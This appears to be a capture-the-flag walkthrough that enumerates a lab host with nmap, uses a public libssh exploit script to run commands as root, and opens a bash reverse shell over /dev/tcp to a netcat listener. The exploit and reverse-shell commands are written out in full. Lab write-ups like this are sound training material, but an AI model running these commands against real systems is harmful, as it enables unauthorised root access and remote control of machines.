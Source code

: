 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)

## Recon-Enumeration  
nmap -A -p- 10.2.0.5  
![alt text](./img/firstmachine01.PNG?raw=true)  


Ok, verfy feel options to work. Let’s try to search some exploit for libssh

## Exploit  
searchsploit libssh  
![alt text](./img/firstmachine02.PNG?raw=true)  

Reading the code it asks 3 arguments... hostname, port and command  
![alt text](./img/firstmachine03.PNG?raw=true)  

python3 46307.py 10.2.0.5 8140 whoami  
![alt text](./img/firstmachine04.PNG?raw=true)  

Wow, we have root. Let’s try to get an reverse shell  

Setup an netcat listener  
	nc -nvlp 1234

And run the command  
python3 46307.py 10.2.0.5 8140 "bash -c 'exec bash -i &>/dev/tcp/10.2.0.4/1234 <&1'"  
![alt text](./img/firstmachine05.PNG?raw=true)  
HABEMUS SHELL \o/

Since we are root, just grab the flag  
![alt text](./img/firstmachine06.PNG?raw=true)  
